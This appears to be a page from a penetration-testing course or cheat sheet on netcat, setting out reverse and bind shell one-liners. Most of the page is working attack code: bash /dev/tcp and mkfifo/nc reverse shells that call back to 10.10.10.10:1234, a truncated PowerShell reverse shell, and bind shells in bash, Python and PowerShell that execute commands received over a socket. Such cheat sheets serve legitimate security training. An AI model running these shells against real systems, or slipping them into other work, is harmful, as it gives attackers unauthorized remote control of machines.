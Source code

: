 # nc (netcat)

## Netcat Listener

The first step is to start a netcat listener on a port of our choosing:

    Netcat Listener
    MBWest@htb[/htb]$ nc -lvnp 1234

    listening on [any] 1234 ...
    
**The flags we are using are the following:**
| **Flag**   | **Description**   |
| --------------|-------------------|
| `-l` | Listen mode, to wait for a connection to connect to us |
| `-v` | Verbose mode, so that we know when we receive a connection |
| `-n` | Disable DNS resolution and only connect from/to IPs, to speed up the connection |
| `-p 1234` | Port number `netcat` is listening on, and the reverse connection should be sent to.
|

**Now that we have a `netcat` listener waiting for a connection, we can execute the reverse shell command that connects to us.**

## Reverse Shell

### Code: `bash`

    bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

### Code: `bash`

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

### Code: `powershell`

    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes =

## Bind Shell

### Code: `bash`

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f

### Code: `python`

    python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'

### Code: `powershell`

    powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();

### Netcat Connection

**Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it.**

**We can use `netcat` to connect to that port and get a connection to the shell:**

    MBWest@htb[/htb]$ nc 10.10.10.1 1234
